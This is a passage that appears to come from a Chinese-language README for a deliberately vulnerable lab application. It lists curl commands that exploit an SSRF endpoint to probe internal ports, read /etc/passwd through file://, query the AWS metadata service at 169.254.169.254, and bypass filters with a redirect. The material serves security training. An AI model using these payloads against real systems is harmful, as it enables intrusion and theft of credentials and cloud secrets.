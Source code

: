 ## 3. 🌐 SSRF (服务器端请求伪造)

### API端点
```bash
# 获取SSRF漏洞信息
curl -X GET http://localhost:8080/api/ssrf/info
```

### 内网探测
```bash
# 访问本地服务
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=http://localhost:8080/api/ssrf/info"

# 访问内网IP
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=http://127.0.0.1:8080/h2-console"

# 端口扫描
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=http://127.0.0.1:22"
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=http://127.0.0.1:3306"
```

### 文件读取
```bash
# 读取本地文件
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=file:///etc/passwd"

# FTP协议测试
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=ftp://internal-server/"
```

### 云服务元数据访问
```bash
# AWS元数据服务
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=http://169.254.169.254/latest/meta-data/"

# 重定向绕过
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/fetch?url=http://httpbin.org/redirect-to?url=http://127.0.0.1:8080"
```

### 图片代理攻击
```bash
# 通过图片代理进行SSRF
curl -X GET "http://localhost:8080/api/ssrf/vulnerable/image-proxy?imageUrl=http://127.0.0.1:8080/api/ssrf/info"
```

---
